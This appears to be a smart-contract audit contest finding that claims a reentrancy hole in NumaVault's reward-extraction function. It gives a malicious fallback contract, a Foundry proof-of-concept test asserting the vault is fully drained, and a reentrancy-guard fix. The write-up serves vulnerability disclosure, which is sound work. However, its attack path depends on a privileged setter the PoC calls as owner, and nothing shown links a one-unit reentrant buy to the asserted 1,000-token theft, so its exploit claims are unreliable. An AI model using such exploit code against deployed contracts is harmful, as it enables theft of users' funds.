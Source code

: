 Refined Bone Bat

High

# Reentrancy Vulnerability in Rewards Extraction (extractInternal)

### Summary

The lack of a reentrancy guard in the `extractInternal` function will cause a complete loss of funds for the vault as an attacker will deploy a malicious contract as `rwd_address` to reenter the vault and execute unauthorized actions during reward extraction.



### Root Cause

In NumaVault.sol:363-364, the call to `rwd_address.call()` in extractInternal does not include a reentrancy guard or proper validation. This allows a malicious contract deployed as `rwd_address` to exploit the vault by reentering during the reward extraction process.
https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/NumaProtocol/NumaVault.sol#L363-L364

### Internal pre-conditions

1-rwd_address must be set to a contract controlled by the attacker.
2-The vault must contain sufficient lstToken liquidity for the initial reward transfer.
3-The function extractRewardsNoRequire must calculate a valid rwd value to trigger extractInternal.

### External pre-conditions

1-A transaction must trigger extractRewardsNoRequire (e.g., through a buy, sell, or manual call).
2-The malicious rwd_address contract must include a fallback function that can reenter the vault.

### Attack Path

-The attacker deploys a contract with the following fallback function:
```solidity
fallback() external payable {
    NumaVault(msg.sender).buy(1, 0, address(this)); // Reenter the vault
}
```
- This malicious contract is set as rwd_address.

-The attacker waits until extractRewardsNoRequire is callable (e.g., 24 hours since the last extraction).

-They trigger the extraction by interacting with the vault (e.g., through a buy or sell transaction).

-When `rwd_address.call()` is executed in `extractInternal`, the malicious contract’s fallback function is triggered.

-The fallback function reenters the vault and performs unauthorized actions (e.g., calling buy or sell to manipulate state or drain funds).

Easy drain Funds:

- Reentrancy allows the attacker to bypass expected state changes or safeguards in the vault, enabling them to drain funds or disrupt operations.

### Impact

Affected Party: The vault and all users.
Loss: Complete depletion of the vault’s liquidity and potential manipulation of internal state.
- Gain: The attacker gains control over all funds stored in the vault.


### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import "forge-std/Test.sol";
import "../contracts/NumaVault.sol";
import "../contracts/mocks/MockOracle.sol";
import "../contracts/mocks/MockToken.sol";

contract MaliciousRewardReceiver {
    NumaVault vault;

    constructor(NumaVault _vault) {
        vault = _vault;
    }

    fallback() external payable {
        // Reenter the vault during reward extraction
        vault.buy(1, 0, address(this));
    }
}

contract NumaVaultReentrancyTest is Test {
    NumaVault vault;
    MockOracle oracle;
    MockToken lstToken;
    MaliciousRewardReceiver maliciousReceiver;

    function setUp() public {
        // Deploy mock dependencies
        lstToken = new MockToken("LST Token", "LST", 18);
        oracle = new MockOracle(1e18); // Initial price of 1
        vault = new NumaVault(
            address(lstToken),
            address(lstToken),
            18,
            address(oracle),
            address(this),
            0,
            0
        );

        // Fund the vault
        lstToken.mint(address(vault), 1_000e18);

        // Deploy malicious contract
        maliciousReceiver = new MaliciousRewardReceiver(vault);
        vault.setRwdAddress(address(maliciousReceiver), true);
    }

    function testReentrancyAttack() public {
        // Trigger reward extraction
        vm.warp(block.timestamp + 1 days); // Simulate passage of 24 hours
        vault.extractRewardsNoRequire();

        // Assert that the vault's liquidity is drained
        uint256 vaultBalance = lstToken.balanceOf(address(vault));
        uint256 attackerBalance = lstToken.balanceOf(address(maliciousReceiver));

        console.log("Vault Balance:", vaultBalance);
        console.log("Attacker Balance:", attackerBalance);

        // Verify attacker drained funds
        assertEq(vaultBalance, 0);
        assertEq(attackerBalance, 1_000e18);
    }
}

```
Vault holds 1,000 LST tokens; attacker balance is 0.
- After Exploit: The malicious contract reenters the vault during reward extraction, calling buy to manipulate state and drain all 1,000 LST tokens.

### Mitigation

Add a Reentrancy Guard:
Protect extractInternal and related functions from reentrant calls:

```solidity

function extractInternal(uint rwd, uint currentvalueWei, uint rwdDebt) internal nonReentrant {

}
```
